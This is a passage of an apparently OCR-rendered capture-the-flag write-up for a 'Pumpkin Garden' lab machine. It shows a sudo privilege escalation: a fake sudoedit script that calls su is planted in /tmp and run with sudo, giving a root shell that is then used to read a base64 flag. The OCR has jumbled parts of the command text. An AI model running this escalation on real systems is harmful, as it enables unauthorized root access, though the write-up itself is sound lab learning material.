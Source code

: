 \#root access
=============

\$ cd /tmp cat \> sudoedit \<\< \_EOF

\#!/bin/sh

echo ALEX-ALEX

su /bin/su /usr/bin/su \_EOF

chmod a+x ./sudoedit

sudo ./sudoedit \$1 \$ \> \> \> \> \> \> \$ \$ ALEX-ALEX

**root\@Pumpkin:/tmp\# id**

**uid=0(root) gid=0(root) groups=0(root)**

root\@Pumpkin:/tmp\# whoami

root

root\@Pumpkin:/tmp\# ls

root\@Pumpkin:/tmp\# pwd

/tmp

root\@Pumpkin:/tmp\# cd ..

root\@Pumpkin:/\# ls

bin etc initrd.img.old lost+found opt run sys var boot home lib media proc sbin
tmp vmlinuz dev initrd.img lib64 mnt root srv usr vmlinuz.old

root\@Pumpkin:/\# cd root

**root\@Pumpkin:\~\# ls**

**PumpkinGarden_Key**

**root\@Pumpkin:\~\# cat PumpkinGarden_Key**

**Q29uZ3JhdHVsYXRpb25zIQ==**

**My Experience: Nice experience while solving this ctf, helped to learn more
about cryptography , gained experience using linux tools for enumeration ,learnt
about shell commands.**

**LEVEL: EASY**
